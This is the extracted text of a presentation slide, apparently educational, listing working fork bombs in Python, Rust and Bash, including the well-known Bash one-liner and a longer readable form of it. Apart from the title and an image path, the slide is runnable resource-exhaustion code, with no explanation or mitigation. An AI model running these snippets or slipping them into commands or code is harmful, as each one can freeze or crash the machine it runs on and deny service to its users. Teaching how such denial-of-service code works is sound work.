

# Fork bombs in various languages
Python fork bomb
import os
while 1:
	os.fork()

Rust fork bomb

#[allow(unconditional_recursion)]
fn main() {
    std::thread::spawn(main);
    main();
}
Bash fork bomb
:(){ :|:& };:

Bash with spacing and a clearer function name
fork() {
    fork | fork &
}
fork
53